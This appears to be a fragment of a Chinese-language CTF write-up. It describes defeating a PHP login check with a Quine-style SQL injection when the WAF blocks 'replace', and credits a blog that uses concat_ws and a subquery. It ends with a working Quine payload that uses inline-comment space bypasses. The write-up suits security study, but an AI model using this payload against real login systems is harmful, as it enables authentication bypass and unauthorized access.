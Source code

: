 一眼看到 `$row['password'] === $password`，100% 确定是 Quine 注入，但是 waf 里面过滤了 replace，非常讨厌。中英文互联网上都找不到解法，最后 teru 在 GitHub 的某个角落里找到了韩国人写的[一篇博客](https://github.com/seolaf/seolaf.github.io/blob/main/_posts/2024-12-10-ouroboros-golf.md?plain=1)，提到了使用 concat+子查询 实现 Quine。

[/doc/sql-BmR424GwhA#h-%E9%AB%98%E7%BA%A7%E6%8A%80%E5%B7%A7](/doc/sql-BmR424GwhA#h-%E9%AB%98%E7%BA%A7%E6%8A%80%E5%B7%A7)

Payload：

```none
'union/**/select/**/concat_ws(char(34),a,a,'a)a#')from(select"'union/**/select/**/concat_ws(char(34),a,a,'a)a#')from(select"a)a#
```


\